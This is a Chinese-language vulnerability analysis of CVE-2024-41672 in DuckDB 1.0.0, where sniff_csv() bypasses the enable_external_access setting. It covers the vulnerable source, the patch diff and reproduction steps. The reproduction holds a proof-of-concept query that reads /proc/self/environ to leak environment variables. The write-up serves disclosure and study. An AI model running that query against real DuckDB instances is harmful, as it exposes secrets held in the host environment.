


# CVE-2024-41672 CWE-200 DuckDB 文件系统访问控制绕过

## 漏洞背景

**DuckDB ：**一款高性能、轻量级的嵌入式列式数据库管理系统，专为分析型查询（OLAP）设计。它无需独立服务器进程，可直接嵌入应用程序中运行，支持 SQL 查询、向量化执行、并行处理以及与多种数据格式（如 CSV、Parquet、JSON）无缝集成。凭借内存优化的架构和简洁的部署方式，DuckDB 常被称为“分析领域的 SQLite”。

## 漏洞原理

DuckDB 1.0.0 及之前版本中的 `sniff_csv()` 函数在执行时未限制外部文件访问，允许用户传入任意路径（例如 `/proc/self/environ`）进行文件内容解析，从而可读取宿主系统的敏感信息。由于缺乏对 `enable_external_access` 配置项的检查，攻击者可利用该函数绕过沙箱访问并泄露环境变量等数据，构成信息泄露漏洞。

## 漏洞定位

分析 DuckDB-1.0.0 源码：

在 duckdb/src/function/table/sniff_csv.cpp 文件，第 36 行 CSVSniffBind 函数是 sniff_csv 表函数的 Bind 阶段函数，用于在执行 sniff_csv('path/to/file')  时完成输入参数解析、输出列结构定义和选项绑定。

其中第 39 行没有对 `result->path` 做外部访问安全检查，即使 `enable_external_access=false`，`CSVSniffBind()` 仍然会接受任意路径（包括系统路径 `/etc/hosts`、`/proc/self/environ`），最终在执行阶段打开文件分析内容，从而造成文件系统访问绕过。

```cpp
static unique_ptr<FunctionData> CSVSniffBind(ClientContext &context, TableFunctionBindInput &input,
                                             vector<LogicalType> &return_types, vector<string> &names) {
	auto result = make_uniq<CSVSniffFunctionData>();
    // ************ 39 行 *********8
	result->path = input.inputs[0].ToString();
	auto it = input.named_parameters.find("auto_detect");
	if (it != input.named_parameters.end()) {
		if (!it->second.GetValue<bool>()) {
			throw InvalidInputException("sniff_csv function does not accept auto_detect variable set to false");
		}
		// otherwise remove it
		input.named_parameters.erase("auto_detect");
	}
    
    // ... ...
    
}
```

## 漏洞修复


补丁在 `CSVSniffBind()` 的函数绑定阶段增加配置检查；当 `enable_external_access` 被禁用时，拒绝调用 `sniff_csv()`，从而阻止该函数绕过配置访问系统文件。

```diff
diff --git a/src/function/table/sniff_csv.cpp b/src/function/table/sniff_csv.cpp
index 37cb2faddb4f..46506da62c92 100644
--- a/src/function/table/sniff_csv.cpp
+++ b/src/function/table/sniff_csv.cpp
@@ -36,6 +36,10 @@ static unique_ptr<GlobalTableFunctionState> CSVSniffInitGlobal(ClientContext &co
 static unique_ptr<FunctionData> CSVSniffBind(ClientContext &context, TableFunctionBindInput &input,
                                              vector<LogicalType> &return_types, vector<string> &names) {
 	auto result = make_uniq<CSVSniffFunctionData>();
+	auto &config = DBConfig::GetConfig(context);
+	if (!config.options.enable_external_access) {
+		throw PermissionException("sniff_csv is disabled through configuration");
+	}
 	result->path = input.inputs[0].ToString();
 	auto it = input.named_parameters.find("auto_detect");
 	if (it != input.named_parameters.end()) {
```

## 影响范围


DuckDB 1.0.0 及更早版本

## **环境搭建**

启动 Docker 环境，DuckDB 版本为 1.0.0

```txt
CNA:GitHub, Inc.   Base Score: 7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

```txt
cpe:2.3:a:duckdb:duckdb:1.0.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 连接 DuckDB

   ```bash
   docker-compose run --rm duckdb
   ```

2. 设置 enable_external_access 配置项为 false，即阻止所有外部文件访问

   ```sql
   SET enable_external_access=false;
   ```

3. 使用 sniff_csv 访问容器文件系统 `/proc/self/environ` 的内容，可以看到成功返回了环境变量内容。意味着即使外部访问（`enable_external_access=false`）已被禁用，`sniff_csv()` 依然能访问外部 `/proc/self/environ` 文件的内容。

   ```bash
   SELECT Columns FROM sniff_csv('/proc/self/environ');
   ```

   

## PoC分析

DuckDB 中的 `sniff_csv()` 函数本意是用于检测 CSV 文件结构（分隔符、引号、列名等），其内部实现会尝试打开并读取文件的部分内容以推断文件格式。

当 `enable_external_access=false` 时，DuckDB 应该禁止任何访问外部文件系统的操作，包括 `read_csv_auto()`、`parquet_scan()`、`copy from 'file'` 等函数。

## 参考链接


https://nvd.nist.gov/vuln/detail/CVE-2024-41672

[sniff_csv provides filesystem access even when enable_external_access is disabled · Advisory · duckdb/duckdb](https://github.com/duckdb/duckdb/security/advisories/GHSA-w2gf-jxc9-pf2q)

[Merge pull request #13133 from hannes/sniffexternal · duckdb/duckdb@c9b7c98](https://github.com/duckdb/duckdb/commit/c9b7c98aa0e1cd7363fe8bb8543a95f38e980d8a#diff-89c460b58061bc98895a1322326d5766a24d5a0987deb85343d28f063d09a284)
